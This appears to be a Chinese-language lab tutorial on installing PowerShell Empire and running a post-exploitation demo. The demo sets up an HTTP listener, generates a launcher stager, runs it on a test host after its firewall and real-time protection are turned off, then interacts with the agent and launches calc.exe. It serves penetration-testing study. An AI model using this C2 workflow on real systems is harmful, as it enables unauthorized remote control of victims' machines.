

# Powershell Empire

> [https://github.com/EmpireProject/Empire](https://github.com/EmpireProject/Empire.git)
> 
> [powershell-empire | Kali Linux Tools --- powershell帝国| Kali Linux 工具](https://www.kali.org/tools/powershell-empire/)
>
> [PowerShell Empire实战入门篇 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/158393.html)
>
> [Empire 2.5：PowerShell渗透测试实战指南（上篇） - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/165925.html)

[EmpireProject/Empire: Empire is a PowerShell and Python post-exploitation agent. (github.com)](https://github.com/EmpireProject/Empire) 是一个渗透测试框架(`post-exploitation framework`), 它包含一个Pure Powershell 2.0 的 Windows 代理和一个Pure Python

---

## Quick Start

### 安装

#### Github

> PS: `main` 分支反映了最新更改，可能并不总是稳定的。克隆存储库后，可以通过运行 `setup/checkout-latest-tag.sh` 脚本签出最新的稳定版本。

```bash
git clone --recursive https://github.com/BC-SECURITY/Empire.git
cd Empire
./setup/checkout-latest-tag.sh
sudo ./setup/install.sh
```

> 
>
> 
>
> 
>
> 
>
> 
>
> ---
>
> 
>
> ---
>
> 
>
> 
>
> 
>
> > 这里似乎缺了一个包, 目前暂且不知道会有什么影响, 先 mark 一下

---

### Demo

> [PBSC CyberWeek 2022 PowerShell Empire Demo - YouTube](https://www.youtube.com/watch?v=wsSox64GqIU&t=635s)

拓扑:



起 server

```>bash
powershell-empire server
```

> 
>
> 
>
> 
>
> 
>
> 

新开一个 bash 起 client

```bash
powershell-empire client
```

> 
>
> 
>
> 
>
> ---

起一个 http listener

```bash
uselistener http
```

> 

这里可以看到, 默认情况下 Host 和 BindIP 都绑定的本地, 这里保持该默认配置, 然后设置下 Port

```bash
# Set Port
set Port 9090
```

> 

```bash
# execute 以使用此 listener
execute
```

> 

```bash
# stager
usestager multi_launcher
```

> 

可以看到 Language 默认为 powershell, 这里再设置一下 listener 为刚才创建的 http listener 然后执行

```bash
set listener http
execute
```

> 
>
> > PS: [+] New agent xxx checked in 那里是后面主机上线的提示, 刚执行完 execute 是不会出现的

执行完后可以获得一行命令, 将其拷贝下来, 然后在靶机侧执行该命令

> 
>
> 也可以使用 CMD, 这里被防火墙拦了, 作为测试使用, 本次先关闭防火墙以及实时防护
>
> 
>
> 
>
> 
>
> 关掉之后就可以成功执行了

成功执行后 empire cleint 会收到一条上线消息:


使用 agents 查看当前上线的主机并可以使用 interact 命令与其交互

```bash
agents
interact [主机名]
```


可以使用 `info` 命令看下该主机的基本信息


也可以弹个计算器:

```bash
shell calc.exe
```

> 需要稍微等待一会儿等待命令执行, 执行完会显示 received
>
> 
>
> 在靶机侧可以看到计算器已经弹出来了
>
> 

可以使用 kill 命令关闭与此 agent 的连接

```bash
# 需要先回到 agents 
agents
kill [主机名]
# 确认一下
agents
```

> 


